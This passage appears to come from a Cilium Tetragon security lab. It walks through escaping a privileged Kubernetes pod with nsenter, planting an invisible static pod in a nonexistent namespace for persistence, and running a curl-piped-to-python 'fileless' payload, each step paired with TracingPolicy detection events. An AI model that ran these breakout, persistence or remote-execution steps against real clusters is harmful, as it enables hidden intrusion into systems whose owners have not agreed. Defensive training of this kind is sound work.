🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/groups        🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/dircolors -b  🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/dircolors -b 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/groups  0 🛑 CAP_SYS_ADMIN
```

#### Terminal 2:

```bash
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# exit
exit
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# 
```


## 🦶 Maintain foothold
As a second stage, we can try to create foothold and persistence on the node. Since we have unfettered access to node resources, we can drop a custom hidden pod spec and launch an invisible pod!

### Tracing Policies

Cilium Tetragon provides an enforcement framework called TracingPolicy. TracingPolicy is a user-configurable Kubernetes custom resource definition (CRD) that allows you to trace arbitrary events in the kernel and define actions to take on match.

TracingPolicy is fully Kubernetes Identity Aware, so it can enforce on arbitrary kernel events and system calls after the Pod has reached a ready state. This allows you to prevent system calls that are required by the container runtime but should be restricted at application runtime. You can also make changes to the TracingPolicy that dynamically update the eBPF programs in the kernel without needing to restart your application or node.

Once there is an event triggered by a TracingPolicy and the corresponding signature, you can either send an alert to a Security Analyst or prevent the behaviour with a SIGKILL signal to the process.

### Add a TracingPolicy to detect invisible Pod
To be able to detect creating an invisible Pod, we will need to apply the third TracingPolicy. This TracingPolicy is going to be used to monitor read and write access to sensitive files. In our case, we are going to observe the __x64_sys_write and __x64_sys_read system calls which are executed on the files under the /etc/kubernetes/manifests directory. In >_ Terminal 2, apply the manifest:
```
kubectl apply -f sys-write-etc-kubernetes-manifests.yaml
```
### Create an invisible Pod

Now let's try to create foothold and persistence on the node. First, in >_ Terminal 1 let's monitor the generated Security Observability events like we did before.
```
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pod sith-infiltrator
```
In >_ Terminal 2 let's kubectl exec into the sith-infiltrator:
```
kubectl exec -it sith-infiltrator -- /bin/bash
```
and then enter to the node again:
```
nsenter -t 1 -a bash
```
Now that you have unfettered access to the node resources, let's cd into the /etc/kubernetes/manifests directory and check the existing content:
```
cd /etc/kubernetes/manifests/
ls -la
```
Then drop a custom hidden PodSpec:

```bash
cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
```

As a validation, let's run crictl ps and see that a new container hack-latest is running on the node. Note that it might take a few seconds for the hack-latest container to show up:

crictl ps
Once it starts, the output should look like the following listing, among other lines:
```
CONTAINER           IMAGE               CREATED             STATE               NAME                        ATTEMPT             POD ID
e843b9e9c1648       e7ba4f2341d9d       5 seconds ago       Running             hack-latest                 0                   89678fea81b04
203c157d2389e       448a08f1d2f94       5 minutes ago       Running             sith-infiltrator            0                   7d376f6cc8989
4c119df97d3c4       0f6f3ec583bf6       10 minutes ago      Running    
```

### Security Observability events

Now, that you have written your hidden PodSpec to kubelet’s directory, you can verify that the pod is invisible to the Kubernetes API server in >_ Terminal 3 by running:
```
kubectl get pods --all-namespaces
```
Note that the container hack-latest is not visible in the output!

However, it can be identified by Cilium Tetragon. By monitoring Security Observability events from Cilium Tetragon in >_ Terminal 1, you can identify persistence early by detecting the hack-latest.yaml file write with /usr/bin/cat in the following process_exec and process_kprobe events:

```bash
📬 open    default/sith-infiltrator /usr/bin/bash /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/cat         🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/cat /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/cat /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/cat /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/cat /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/cat  0 🛑 CAP_SYS_ADMIN
```

Now that we actually persisted the breakout by spinning up an invisible container, we can download and execute a malicious script in memory that never touches disk.

Click on Next to get to see how to do —and detect— that.

#### Terminal 1: 

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pod sith-infiltrator
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /usr/lib/x86_64-linux-gnu/libtinfo.so.6.4 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /usr/lib/x86_64-linux-gnu/libtinfo.so.6.4 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /dev/tty     🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /dev/tty     🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /etc/passwd  🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /etc/passwd  🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /dev/pts/1   🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /dev/pts/1   🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /etc/bash.bashrc 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /etc/bash.bashrc 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /root/.bashrc 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /root/.bashrc 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /usr/lib/terminfo/x/xterm 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /usr/lib/terminfo/x/xterm 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /bin/bash /etc/inputrc 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /bin/bash /etc/inputrc 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/nsenter /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/nsenter /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/nsenter /usr/lib/x86_64-linux-gnu/libselinux.so.1 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/nsenter /usr/lib/x86_64-linux-gnu/libselinux.so.1 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/nsenter /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/nsenter /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/nsenter /usr/lib/x86_64-linux-gnu/libpcre2-8.so.0.11.2 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/nsenter /usr/lib/x86_64-linux-gnu/libpcre2-8.so.0.11.2 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/nsenter /proc/filesystems 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/nsenter /proc/filesystems 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /usr/lib/x86_64-linux-gnu/libtinfo.so.6.3 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /dev/tty 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /dev/tty 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /etc/passwd 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/passwd 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /dev/pts/1 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /dev/pts/1 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /usr/lib/terminfo/x/xterm 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /usr/lib/terminfo/x/xterm 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /etc/bash.bashrc 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/bash.bashrc 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/groups        🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/groups /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/groups /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/groups /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/groups /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/groups /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/groups /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/groups /etc/group 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/groups /etc/group 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /root/.bashrc 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /root/.bashrc 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /root/.bash_history 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /root/.bash_history 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/dircolors -b  🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/dircolors /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/dircolors /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/dircolors /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/dircolors /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /root/.bash_history 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /root/.bash_history 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /root/.bash_history 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /root/.bash_history 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /etc/inputrc 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/inputrc 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/dircolors -b 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/groups  0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/ls --color=auto -la 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /usr/lib/x86_64-linux-gnu/libselinux.so.1 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /usr/lib/x86_64-linux-gnu/libselinux.so.1 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /usr/lib/x86_64-linux-gnu/libpcre2-8.so.0.10.4 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /usr/lib/x86_64-linux-gnu/libpcre2-8.so.0.10.4 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /proc/filesystems 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /proc/filesystems 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /etc/kubernetes/manifests 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /etc/nsswitch.conf 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /etc/passwd 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /etc/passwd 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/ls /etc/group 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /etc/group 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/ls /etc/kubernetes/manifests 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/ls --color=auto -la 0 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/bash /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/bash /etc/kubernetes/manifests/hack-latest.yaml 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/cat           🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/cat /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/cat /etc/ld.so.cache 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/bin/cat /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/bin/cat /usr/lib/x86_64-linux-gnu/libc.so.6 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/cat  0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl ps 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/local/bin/crictl /sys/kernel/mm/transparent_hugepage/hpage_pmd_size 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/local/bin/crictl /sys/kernel/mm/transparent_hugepage/hpage_pmd_size 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/local/bin/crictl /usr/local/bin/crictl 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/local/bin/crictl /usr/local/bin/crictl 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/local/bin/crictl /etc/mime.types 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/local/bin/crictl /etc/mime.types 🛑 CAP_SYS_ADMIN
📬 open    default/sith-infiltrator /usr/local/bin/crictl /etc/crictl.yaml 🛑 CAP_SYS_ADMIN
📪 close   default/sith-infiltrator /usr/local/bin/crictl /etc/crictl.yaml 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps 0 🛑 CAP_SYS_ADMIN
```

#### Terminal 2: 

```bash
root@server:~# kubectl apply -f sys-write-etc-kubernetes-manifests.yaml
tracingpolicy.cilium.io/file-write-etc-kubernetes-manifests created
root@server:~# cat sys-write-etc-kubernetes-manifests.yaml 
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: "file-write-etc-kubernetes-manifests"
spec:
  kprobes:
  - call: "fd_install"
    syscall: false
    args:
    - index: 0
      type: int
    - index: 1
      type: "file"
    selectors:
    - matchArgs:
      - index: 1
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
      matchActions:
      - action: FollowFD
        argFd: 0
        argName: 1
  - call: "__x64_sys_close"
    syscall: true
    args:
    - index: 0
      type: "fd"
    selectors:
    - matchPIDs:
      - operator: NotIn
        followForks: true
        isNamespacePID: true
        values:
        - 1
      matchActions:
      - action: UnfollowFD
        argFd: 0
        argName: 0
  - call: "__x64_sys_write"
    syscall: true
    args:
    - index: 0
      type: "fd"
    - index: 1
      type: "char_buf"
      sizeArgIndex: 3
    - index: 2
      type: "size_t"
    selectors:
    - matchPIDs:
      - operator: NotIn
        followForks: true
        isNamespacePID: true
        values:
        - 1
      matchArgs:
      - index: 0
        operator: "Prefix"
        values:
        - "/etc/kubernetes/manifests"
root@server:~# kubectl exec -it sith-infiltrator -- /bin/bash
root@kind-control-plane:/# nsenter -t 1 -a bash
root@kind-control-plane:/# cd /etc/kubernetes/manifests/
ls -la
total 28
drwxr-xr-x 1 root root 4096 Jul  8 08:49 .
drwxr-xr-x 1 root root 4096 Jul  8 08:49 ..
-rw------- 1 root root 2382 Jul  8 08:49 etcd.yaml
-rw------- 1 root root 3873 Jul  8 08:49 kube-apiserver.yaml
-rw------- 1 root root 3405 Jul  8 08:49 kube-controller-manager.yaml
-rw------- 1 root root 1440 Jul  8 08:49 kube-scheduler.yaml
root@kind-control-plane:/etc/kubernetes/manifests# cat << EOF > hack-latest.yaml
apiVersion: v1
kind: Pod
metadata:
  name: hack-latest
  hostNetwork: true
  # define in namespace that doesn't exist so
  # workload is invisible to the API server
  namespace: doesnt-exist
spec:
  containers:
  - name: hack-latest
    image: sublimino/hack:latest
    command: ["/bin/sh"]
    args: ["-c", "while true; do sleep 10;done"]
    securityContext:
      privileged: true
EOF
root@kind-control-plane:/etc/kubernetes/manifests# crictl ps
CONTAINER           IMAGE               CREATED             STATE               NAME                      ATTEMPT             POD ID              POD
06bebbe843b31       e7ba4f2341d9d       10 seconds ago      Running             hack-latest               0                   2441372d3b851       hack-latest-kind-control-plane
fd155db3e914a       021283c8eb95b       27 minutes ago      Running             sith-infiltrator          0                   158f4e47a4976       sith-infiltrator
b54525e5320aa       0f6f3ec583bf6       39 minutes ago      Running             tetragon                  0                   4df9e6c085447       tetragon-stbxn
c7d5d83bba220       18f53d3c12a5f       39 minutes ago      Running             export-stdout             0                   4df9e6c085447       tetragon-stbxn
a9b1a068178e9       c408b2276bb76       43 minutes ago      Running             local-path-provisioner    0                   995e23e9f3b22       local-path-provisioner-75f5b54ffd-czfmp
b98d565a2975f       5185b96f0becf       43 minutes ago      Running             coredns                   0                   6da758f989869       coredns-787d4945fb-qp8nm
7d61979739b43       5185b96f0becf       43 minutes ago      Running             coredns                   0                   90d14c6413398       coredns-787d4945fb-qxj5j
0fd57ffa88386       350b164e7ae1d       43 minutes ago      Running             pause                     0                   4e3c0aad463c4       kind-preload-dnxnx
8d80049fbcd07       a329ae3c2c52f       43 minutes ago      Running             kindnet-cni               0                   78cbda470f774       kindnet-rxzdf
ed78b8b77cc9a       eb3079d47a23a       43 minutes ago      Running             kube-proxy                0                   d172351ffc0a8       kube-proxy-fgsk2
8d5a84d79142c       fce326961ae2d       44 minutes ago      Running             etcd                      0                   74cd31bac2d2f       etcd-kind-control-plane
c09ca6590101d       801fc1f38fa6c       44 minutes ago      Running             kube-apiserver            0                   0f4a7f7ccbf28       kube-apiserver-kind-control-plane
ad2ddcf9eb0de       cb77c367deebf       44 minutes ago      Running             kube-controller-manager   0                   d9f570e9ede37       kube-controller-manager-kind-control-plane
dff3322f528ef       dec886d066492       44 minutes ago      Running             kube-scheduler            0                   b324c070f808b       kube-scheduler-kind-control-plane
root@kind-control-plane:/etc/kubernetes/manifests# 
```

#### Terminal 3: 

```bash
root@server:~# kubectl get pods --all-namespaces
NAMESPACE            NAME                                         READY   STATUS    RESTARTS   AGE
default              sith-infiltrator                             1/1     Running   0          28m
kind-preload         kind-preload-dnxnx                           1/1     Running   0          44m
kube-system          coredns-787d4945fb-qp8nm                     1/1     Running   0          44m
kube-system          coredns-787d4945fb-qxj5j                     1/1     Running   0          44m
kube-system          etcd-kind-control-plane                      1/1     Running   0          44m
kube-system          kindnet-rxzdf                                1/1     Running   0          44m
kube-system          kube-apiserver-kind-control-plane            1/1     Running   0          44m
kube-system          kube-controller-manager-kind-control-plane   1/1     Running   0          44m
kube-system          kube-proxy-fgsk2                             1/1     Running   0          44m
kube-system          kube-scheduler-kind-control-plane            1/1     Running   0          44m
kube-system          tetragon-stbxn                               2/2     Running   0          40m
local-path-storage   local-path-provisioner-75f5b54ffd-czfmp      1/1     Running   0          44m
```

## 🐍 Execute a malicious python script in memory
We have persisted the breakout by spinning up an invisible container, now we can download and execute a malicious script in memory that never touches disk.

For this we are using a simple python script as a fileless malware which is almost impossible to detect by using traditional userspace tools.


### Payload execution

Now, that you actually have persisted the breakout by spinning up an invisible container, you can download and execute a malicious script in memory that never touches disk. Note that this simple python script can be a fileless malware which is almost impossible to detect by using traditional userspace tools.

First, in >_ Terminal 1 let's monitor the generated Security Observability events like we did before.
```
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pod sith-infiltrator
```
In >_ Terminal 3 let's enter to the sith-infiltrator:
```
kubectl exec -it sith-infiltrator -- /bin/bash
```
and then to the node again:
```
nsenter -t 1 -a bash
```
Find the container ID of the hack-latest container:
```
CONT_ID=$(crictl ps --name hack-latest --output json | jq -r '.containers[0].id')
echo $CONT_ID
```
In the same >_ Terminal 3 let's crictl exec into the invisible container:
```
crictl exec -it $CONT_ID /bin/bash
```
In the logs in >_ Terminal 1 the first process_exec event shows the bash execution in a container with a container id (for example 24220f07dacc), which is the invisible hack-latest container.

Note that due to ringbuffer/latency reasons it sometimes can take a moment or two until certain log messages appear!
```bash
💥 exit    default/sith-infiltrator /bin/bash  0 🛑 CAP_SYS_ADMIN
...
🚀 process default/sith-infiltrator /usr/bin/crictl exec -it a931f484e2889b50a24ff2d50b250ee5a820212fa4fc75a9d386941c7fcfba61 /bin/bash 🛑 CAP_SYS_ADMIN
```

To be able to fine grain the Security Observability events from Cilium Tetragon, start monitoring the events that match process names curl or python in >_ Terminal 2:
```
kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --process curl,python
```
Then, in >_ Terminal 3 download a malicious python script and execute it in memory:
```
curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py | python
```


### 🔎 Security Observability events

By using Cilium Tetragon you are able to follow the final movements of the attack.

After about a minute, in the logs in >_ Terminal 2, the process_exec event shows the sensitive curl command with the arguments of https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py:
```
🚀 process kind-control-plane /usr/bin/python              🛑 CAP_SYS_ADMIN
🚀 process kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 🛑 CAP_SYS_ADMIN
```
You can also identify the sensitive socket connection opened via curl with the following destination IP 185.199.110.133 and port 443:
```
🔌 connect kind-control-plane /usr/bin/curl tcp 10.244.0.5:3745 -> 185.199.108.133:443 🛑 CAP_SYS_ADMIN
🧹 close   kind-control-plane /usr/bin/curl tcp 10.244.0.5:3745 -> 185.199.108.133:443 🛑 CAP_SYS_ADMIN
```
While the following process_exit events show the malicious python script execution in memory is finished with exit code 0, which means it was successful:
```bash
💥 exit    kind-control-plane /usr/bin/curl https://raw.githubusercontent.com/realpython/python-scripts/master/scripts/18_zipper.py 0 🛑 CAP_SYS_ADMIN
💥 exit    kind-control-plane /usr/bin/python  0  🛑 CAP_SYS_ADMIN
```

You can now see the payload working.


#### Terminal 1:

```bash
root@server:~# kubectl exec -n kube-system -ti daemonset/tetragon -c tetragon -- \
  tetra getevents -o compact --pod sith-infiltrator
🚀 process default/sith-infiltrator /bin/bash              🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/nsenter -t 1 -a bash 🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter cgroup         🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter ipc            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter uts            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter net            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter pid            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter mnt            🛑 CAP_SYS_ADMIN
🔧 setns   default/sith-infiltrator /usr/bin/nsenter time           🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/bash          🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/groups        🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/dircolors -b  🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/groups  0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/dircolors -b 0 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 🛑 CAP_SYS_ADMIN
🚀 process default/sith-infiltrator /usr/bin/jq -r .containers[0].id 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/local/bin/crictl ps --name hack-latest --output json 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/jq -r .containers[0].id 0 🛑 CAP_SYS_ADMIN
💥 exit    default/sith-infiltrator /usr/bin/bash  0 🛑 CAP_SYS_ADMIN
